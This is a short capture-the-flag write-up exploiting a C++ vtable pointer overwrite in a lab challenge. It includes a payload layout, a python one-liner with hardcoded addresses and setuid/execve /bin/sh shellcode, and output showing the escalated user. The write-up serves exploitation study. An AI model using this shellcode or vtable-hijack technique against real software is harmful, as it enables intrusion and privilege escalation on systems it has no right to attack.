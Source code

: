 # C++ vtables

## Writeup

If we use padding we can get a segfault. We need overwrite 3 pointers : 
the VPTR pointing to -> the virtual functions table pointer -> the format virtual function of the parent class.
Our payload will look like this:
[virt funcs table POINTER -> &virt func 1][virt func 1][virt func 2][virt func 3: format][      S H E L L C O D E ...    ][   filler ...   ][    VPTR -> &virt funcs table pointer    ]
    ↖ &formatter.str + padding                                                                   

Let's not forget to `unset env COLUMNS` and `unset env LINES` in gdb as usual.

```app-systeme-ch20@challenge02:/tmp/20$ echo 5 > in && echo 2 >> in && python -c 'print "\x69\xfa\xff\xbf" + "\xed\xbe\xad\xde" + "\xf9\xfa\xff\xbf" + "\x75\xfa\xff\xbf" + "\x90\x90\x90\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80" + "\x90" * 22 + "\x65\xfa\xff\xbf"' >> in
app-systeme-ch20@challenge02:/tmp/20$ cat in - | ~/shell
-bash: /challenge/app-systeme/ch20/shell: No such file or directory
app-systeme-ch20@challenge02:/tmp/20$ cat in - | ~/ch20
Padding : 1-5


	Convert in :
	  1: uppercase
	  2: lowercase
String to convert:
whoami
app-systeme-ch20-cracked
```

## Resources

[Checksec.sh - github](https://github.com/slimm609/checksec.sh)
[Smashing C++ VPTRS - Phrack](http://phrack.org/issues/56/8.html)